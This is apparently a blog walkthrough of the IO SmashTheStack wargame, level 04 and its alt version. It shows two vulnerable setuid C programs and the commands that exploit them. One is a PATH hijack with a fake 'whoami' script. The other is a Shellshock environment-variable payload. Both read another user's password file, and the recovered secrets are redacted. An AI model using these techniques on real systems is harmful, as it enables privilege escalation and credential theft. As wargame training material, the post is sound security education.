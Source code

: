 +++
title = "IO Smash the stack level 04"
date = "2016-01-26T10:48:00-02:00"
publishdate = "2016-01-26"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-04"
project_url = "https://greyhat.dk/io-smashthestack-level-04"
type = "post"
description = "Walk-through"
image = "binary.png"
image_alt = "Binary pattern"
+++

## Level04

```sh
level4@io:/levels$ ls -latr level04*
-r-sr-x--- 1 level5 level4 5159 Dec 18  2013 level04
-r-------- 1 level4 level4  245 Dec 18  2013 level04.c
-r-sr-x--- 1 level5 level4 5105 Sep 24  2014 level04_alt
-r-------- 1 level4 level4  120 Jan 27  2015 level04_alt.c
```

level4@io:/levels$ cat level04.c
```c
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```

So it runs whoami without full path .. lets see if we can make it run our version of whoami

```sh
level4@io:~$ mkdir /tmp/desdic
level4@io:~$ cd /tmp/desdic
level4@io:/tmp/desdic$ echo "cat /home/level5/.pass" > whoami
level4@io:/tmp/desdic$ chmod 777 whoami
level4@io:/tmp/desdic$ ./whoami
cat: /home/level5/.pass: Permission denied
level4@io:/tmp/desdic$ export PATH=.:$PATH
level4@io:/tmp/desdic$ which whoami
./whoami
level4@io:/tmp/desdic$ /levels/level04
Welcome XXXXXXXXXXXXXXXX
```


## Level04 alt

level4@io:/tmp/desdic$ cat /levels/level04_alt.c
```c
//written by bla
#include <stdlib.h>
int main(){
	setresuid(geteuid(), geteuid(), geteuid());
	system("/usr/bin/id");
}
```

Tried some old tricks using IFS to split the system call into usr bin id but it never worked. So I tried shellshock

```sh
level4@io:/tmp/d$ env x='() { :;}; cat /home/level5/.pass' /levels/level04_alt
XXXXXXXXXXXXXXXX
```
